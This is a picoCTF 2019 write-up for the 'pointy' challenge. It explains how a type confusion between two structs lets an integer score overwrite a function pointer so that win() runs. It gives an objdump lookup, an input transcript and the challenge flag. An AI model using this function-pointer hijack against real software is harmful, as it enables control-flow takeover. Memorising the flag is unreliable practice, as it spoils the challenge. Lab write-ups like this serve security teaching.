 ## pointy
#### Problem
> Exploit the function pointers in this [program](https://2019shell1.picoctf.com/static/fdb9b5cce6ac0c34e421786f42629036/vuln). It is also found in /problems/pointy_0_4da9845cb7c41585de522db47f569424 on the shell server. [Source](https://2019shell1.picoctf.com/static/fdb9b5cce6ac0c34e421786f42629036/vuln.c).  
  
Note the one function pointer in vuln.c's struct Student: `void (*scoreProfessor)(struct Professor*, int)` and that scoreProfessor is called on line 93.  

To get the program to call `win()`, we need to somehow assign win's address to scoreProfessor. Access to scoreProfessor via a student is already blocked by `student->scoreProfessor=&giveScoreToProfessor`.  However:    
1. lastscore and scoreProfessor have the same offset from the respective struct's address.  
2. The student and professor variables in `main` are cast from the return values of retrieveStudent and retrieveProfessor, which are identical.  

This means we could give win's address as a professor's score. Then, cast the professor into a student, which effectively casts Professor's `int lastscore` to Student's `void (*scoreProfessor)(struct Professor*, int)` ie. casts the professor's score to a pointer to win(). Thus the next time student->scoreProfessor is called, win would be executed.  

#### Solution 1: Python  

#### Solution 2: objdump
First `objdump -D vuln | grep win` to disassemble all sections of vuln to get addresses, and pipe that ouput to grep to get only the win function section. You will 08048696 is the address in hex, which converts to 134514326 as int / unsigned int.  
```
@pico-2019-shell1:/problems/pointy_0_4da9845cb7c41585de522db47f569424$ ./vuln
Input the name of a student  
s0  
Input the name of the favorite professor of a student   
s0  
Input the name of the student that will give the score   
s0  
Input the name of the professor that will be scored  
s0  
s0  
Input the score:  
134514326  
Score Given: 134514326   
Input the name of a student  
s0  
Input the name of the favorite professor of a student   
s0  
Input the name of the student that will give the score  
s0
Input the name of the professor that will be scored 
s0  
s0  
Input the score:  
0  
```
**Flag: picoCTF{g1v1ng_d1R3Ct10n5_d9be6a30}**
